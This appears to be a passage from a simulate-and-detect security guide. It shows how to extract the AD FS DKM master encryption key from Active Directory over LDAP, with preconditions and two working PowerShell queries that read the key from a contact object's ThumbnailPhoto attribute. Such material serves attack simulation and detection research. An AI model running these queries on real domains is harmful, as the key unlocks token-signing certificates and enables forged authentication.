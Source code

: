 ## Get AD FS DKM Encryption Key from Active Directory
With the right path to the AD FS DKM container and DKM group in the AD DS server, we have a few options to retrieve the DKM encryption key.

### Lightweight Directory Access Protocol (LDAP)
**Preconditions**
* Endpoint: ADFS01
    * Authorization: AD FS service account
* Endpoint: DC01
    * Authorization: AD FS service account
    * Services Running: Lightweight Directory Access Protocol (LDAP)
    * Ports Open: 389

**LDAP Query with ThumbnailPhoto Attribute in Filter**

We can use LDAP and create a query filtering on specific objects with the `ThumbnailPhoto` attribute. We can then read the encryption key from the `ThumbnailPhoto` attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter='(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADUser=$ADSearch.FindOne()
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```
![](../../resources/images/simulate_detect/credential-access/localExportADFSTokenSigningCertificate/2021-05-19_07_ldap_thumbnailphoto_filter.png)

**LDAP Query Filtering on `CryptoPolicy` Object to then Access the Right Contact AD Object**

One could filter on the `CryptoPolicy` contact object inside of the AD FS DKM container and get the value of its `DisplayName` attribute. This attribute refers to the `l` attribute of the right AD contact object that contains the DKM master key value. The DKM key is stored in its `ThumbnailPhoto` attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.Filter = '(name=CryptoPolicy)'
$aduser = $ADSearch.FindOne()
$keyObjectGuid = $ADUser.Properties["displayName"]
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter="(l=$keyObjectGuid)"
$aduser=$ADSearch.FindOne() 
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```
